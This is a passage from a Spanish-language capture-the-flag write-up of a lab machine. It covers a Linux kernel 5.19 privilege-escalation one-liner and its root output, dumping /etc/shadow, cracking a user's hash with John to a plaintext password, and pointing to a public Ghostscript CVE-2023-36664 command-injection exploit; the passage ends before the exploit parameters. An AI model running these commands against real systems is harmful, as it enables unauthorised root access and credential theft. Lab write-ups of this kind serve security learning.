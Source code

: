 - Estamos en un entorno virtualizado `Hyper-V` de Microsoft, no nos ayuda mucho pero siempre es bueno saberlo.
- Listé también el Kernel, el cual estaba algo desactualizado:

~~~bash
www-data@webserver:/var/www/html/uploads$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
~~~

- Buscando un poco sobre PrivEsc local en versiones de Kernel 5.19, encontré una serie de comandos que podemos aplicar, los cuales se aprovechan de capabilities para convertirnos en usuario root:

~~~bash
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap&& touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@webserver:/var/www/html/uploads# whoami
root
~~~


***
<h3>Salida del entorno Hyper-V :</h3>

- Ahora bien, no encontré nada que pudiéramos emplear para escapar del entorno virtualizado, así que opté por buscar credenciales de usuarios en `/etc/shadow`
- Encontré el hash de un usuario `drwilliams`:

~~~bash
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
~~~

- Lo crackeamos con John y tendríamos credenciales, ya las había conseguido anteriormente pero se me olvidó guardarlas, así que solo puedo mostrarlas con `--show`:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Windows/Hospital]
└─$ john --show creds.hash
drwilliams:qwe123!@#:19612:0:99999:7:::

1 password hash cracked, 0 left
~~~

- Estas credenciales no parecen ser parte del sistema, así que quizá sean para el servicio de correo.
- Logramos acceder a la cuenta de `drwilliams`, y vemos que hay un correo bastante interesante:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb3900a0-9056-43b8-848e-92f068d1ae3b)

- Se nos pide un archivo `PostScript` que posteriormente un Script se encargará de ejecutar.
- Lo que se me vino a la mente fue buscar algún método para inyectar código dentro del formato de archivo que se nos solicita.
- Encontré un [proyecto de GitHub](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) muy interesante desarrollado por **jakabakos**, que se encarga de hacer esto.
- El script nos solicita ciertos parámetros, para lo que buscamos, introduciremos lo siguiente:
  
